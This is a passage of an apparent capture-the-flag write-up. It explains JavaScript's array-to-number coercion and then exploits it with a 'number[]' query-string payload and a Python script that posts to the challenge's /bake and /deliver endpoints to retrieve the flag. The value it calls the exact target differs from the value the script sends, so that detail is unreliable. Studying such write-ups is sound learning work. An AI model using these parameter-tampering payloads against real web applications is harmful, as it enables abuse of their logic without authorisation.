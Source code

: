 
When the `Number()` function is called, it converts its argument into a number following these steps:

1. If the argument is already a `Number`, it simply returns that number.
2. If the argument is a `String`, it converts the string to a number (via `StringToNumber()`).
3. If the argument is an **object** (which is the case for arrays in JavaScript), it calls the `ToPrimitive()` function.

`ToPrimitive()` is invoked implicitly when we pass an object, and what does it do?

As the name suggests, this function converts an object to a primitive value (either a string or a number), and it does so by calling `OrdinaryToPrimitive`. This function takes the object and a preferred type (by default, `number`).

`OrdinaryToPrimitive` proceeds as follows:

1. It first calls the object's `valueOf()` method, which, in the case of arrays, returns the array itself.
2. If that doesn't provide a suitable primitive, it then calls the object's `toString()` method, which returns the string representation of the array.

> `.valueOf()` returns the array itself because that's how JavaScript's `Array.prototype.valueOf()` is defined in the spec.

> You can read more about [Object.prototype.valueOf()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/valueOf) and [Object.prototype.toString()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/toString) to understand how they work.

So, what’s happening here? When an array is passed to `Number()`, it is first converted to a string (via `toString()`), and then that string is passed to `Number()`, which converts it to a number using `StringToNumber()`.

This process of implicit coercion explains how we can pass an array to `Number()` and still get the correct numeric result.

## Exploitation

Armed with this newfound knowledge, we know exactly what to do: we need to craft a payload that, when converted to a string, results in a number that won’t cause issues for the `Number()` function.

The payload will look like this:

```
number[]=1000000000 // This is the exact target value we need
```

Now, to submit this query string, we can create a simple Python script that will interact with the server and retrieve the flag:

```python
import requests

url = "https://cookie.dicec.tf"

s = requests.Session()

# Start a session to maintain cookies across requests
s.get(url)

# Send the payload to the /bake endpoint
s.post(url + "/bake", params={"number[]": "100000000000000"})

# Send a request to the /deliver endpoint to fetch the flag
res = s.post(url + "/deliver")
print(res.text)  # Print the flag
```

